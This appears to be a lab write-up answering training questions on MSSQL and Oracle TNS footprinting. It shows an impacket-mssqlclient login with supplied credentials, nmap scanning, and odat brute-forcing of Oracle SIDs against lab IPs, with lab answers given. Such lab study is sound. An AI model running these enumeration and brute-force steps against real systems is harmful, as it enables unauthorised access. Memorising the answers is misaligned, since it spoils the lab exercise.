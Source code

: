 
2.  Connect to the MSSQL instance running on the target using the account `(backdoor:Password1)`, then list the non-default database present on the server.
### ANS: **`Employees`**
```zsh
❯ impacket-mssqlclient backdoor:Password1@10.129.230.249 -windows-auth
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ILF-SQL-01): Line 1: Changed database context to 'master'.
[*] INFO(ILF-SQL-01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (ILF-SQL-01\backdoor  dbo@master)> 
```

```sql
SQL (ILF-SQL-01\backdoor  dbo@master)> select name from sys.databases
name        
---------   
master      

tempdb      

model       

msdb        

Employees   
```


# Oracle TNS (1521)

QUESTION: Enumerate the target Oracle database and submit the password hash of the user DBSNMP as the answer.

```zsh
❯ sudo nmap -sCV -T 4 --min-rate 3000 -p 1521 10.129.205.19 -v
PORT     STATE SERVICE    VERSION
1521/tcp open  oracle-tns Oracle TNS listener 11.2.0.2.0 (unauthorized)
```

```zsh
❯ odat sidguesser -s 10.129.205.19 -p 1521

[1] (10.129.205.19:1521): Searching valid SIDs
[1.1] Searching valid SIDs thanks to a well known SID list on the 10.129.205.19:1521 server
[+] 'XE' is a valid SID. Continue... #####################################################################################################  | ETA:  00:00:04 
100% |######################################################################################################################################| Time: 00:07:39 
[1.2] Searching valid SIDs thanks to a brute-force attack on 1 chars now (10.129.205.19:1521)
100% |######################################################################################################################################| Time: 00:00:15 
[1.3] Searching valid SIDs thanks to a brute-force attack on 2 chars now (10.129.205.19:1521)
[+] 'XE' is a valid SID. Continue...                            #############################################################               | ETA:  00:00:44 
100% |######################################################################################################################################| Time: 00:06:43 
[+] SIDs found on the 10.129.205.19:1521 server: XE
```
